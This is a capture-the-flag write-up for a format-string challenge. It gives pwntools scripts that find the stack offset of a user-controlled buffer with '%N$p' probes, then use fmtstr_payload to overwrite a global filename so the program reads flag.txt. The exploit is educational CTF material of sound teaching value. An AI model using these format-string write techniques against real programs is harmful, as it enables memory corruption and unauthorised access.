





[Source code](./handout/2-Arbitrary_Write)



From this interaction it looks like the program is trying to read a file name `blag.txt` but we know for sur it's supposed to be `flag.txt`  
We need to change that.  
Let's check the binary protection.  



`PIE` is not enabled so the address will be the same every the program runs

Let's breakdown in steps the exploit process

### 1. Get the address of `blag_file` 
We can achieve this with `nm` command



The address is `0x00000000004040c0`

### 2. Find the offset of `name` on the stack
I will use a python script to do it:  

```python
from pwn import *

HOST = "chal.sigpwny.com"
PORT = 1384

for i in range(1, 31):
	conn = remote(HOST, PORT)		
	try:
		conn.recvuntil(b'? ')		
		conn.sendline(f"AAAAAAAA%{i}$p".encode())		
		out = conn.recvline()		
		log.info(f"[{i}] {out}")		
		if b'0x4141414141414141' in out:
			log.success(f"Offset found: {i}")		
			exit(0)	
		conn.close()	
	except EOFError:	
		log.warning(f"EOF at offset {i}")
```

So this script will iterate from value 1 to 31 and will send:

```python
AAAAAAAA%1$p
AAAAAAAA%2$p
AAAAAAAA%3$p
............
............
AAAAAAAA%30$p
```

If the result displayed by the program is:  

```python
AAAAAAAA0x4141414141414141
```

That means we found the start offset of the `name` variable



The `name` variable starts at offset `10`

### 3. Write the final exploit
Arbitrary write is a little bit hard to do by hand, but pwntools gives us a handy function `fmtstr_payload` to handle this.  
Here is how it works
```python
payload = fmtstr_payload(OFFSET_YOUR_VARIABLE_IS, {which_addr_to_write: what_to_write}, write_size='byte')
```

```python
from pwn import *

# The binary path
FILE = "./arbitrary_write"

# To load usefull information about the binary for easy payload formatting
context.binary = FILE

HOST = "chal.sigpwny.com"
PORT = 1384
OFFSET = 10

# To load symbols and function from the binary
elf = ELF(FILE)

# Initiate remote connexion
conn = remote(HOST, PORT)

# Extract the "blag_file" address
blag_file_addr = elf.sym['blag_file']
# Print the 'blag_file' address
log.info(f"blag_file_addr: {hex(blag_file_addr)}")

# Construct the payload
# This will change the first letter of 'blag.txt' into 'flag.txt'
payload = fmtstr_payload(OFFSET, {blag_file_addr: b"f"}, write_size='byte')  

conn.sendline(payload)
conn.interactive()
```



[3-Leak_and_Read](./3-Leak_and_Read.md)
